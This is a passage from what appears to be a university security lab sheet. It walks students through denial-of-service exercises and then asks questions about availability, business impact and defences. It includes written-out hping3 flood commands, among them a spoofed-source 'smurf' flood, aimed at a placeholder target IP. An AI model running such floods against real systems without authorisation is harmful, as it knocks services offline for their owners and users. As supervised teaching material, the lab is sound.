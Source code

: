     ```
    hping3 --flood --rand-source [target IP]
    ```

    ~~~

    Note your observation on the server

    ~~~admonish output collapsible=true

    ~~~
    

2. Smurf attack, will broadcast to all machines on the subnet

    ~~~admonish warning

    Get permission from the lab instructor before performing this as it may affect all machines on the LAN

    ~~~

    ~~~admonish terminal

    ```
    hping3 --flood -a [target IP] 
    ```

    ~~~

3. You can check more `hping3` options/tags using:

    ~~~admonish terminal

    ```
    hping3 –help
    ```
    ~~~

### 2.4 Questions

~~~admonish question title="When the server crashes and is unreachable, this leads to a loss of which leg of the CIA triad?" collapsible=true

~~~

~~~admonish question title="Can you list 3 impacts the crash could have on a business." collapsible=true

~~~

~~~admonish question title="What can you do as a developer/organisation/defender to prevent or mitigate the impact of the attacks performed above?" collapsible=true

~~~

## Execise 3


Discovering System Vulnerabilities and Hardening Systems 

[Target IP: Provided in the lab] 
[Target NW: Provided in the lab]
